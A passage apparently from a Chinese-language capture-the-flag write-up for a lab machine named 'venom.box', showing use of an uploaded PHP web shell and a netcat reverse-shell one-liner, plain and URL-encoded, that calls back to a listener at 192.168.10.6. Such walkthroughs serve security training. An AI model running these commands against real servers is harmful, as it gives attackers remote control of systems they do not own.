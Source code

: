 ![](./pic/30.jpg)

再次访问这个文件

```shell
http://venom.box/uploads/shell.php.phar?cmd=ls
```

![](./pic/31.jpg)

`binggo`，那么下面就构造反弹`shell`

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f
#进行url编码
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.10.6%209999%20%3E%2Ftmp%2Ff
```

当然在执行上面的命令时，要先在`kali`使用`nc`开启监听

![](./pic/32.jpg)
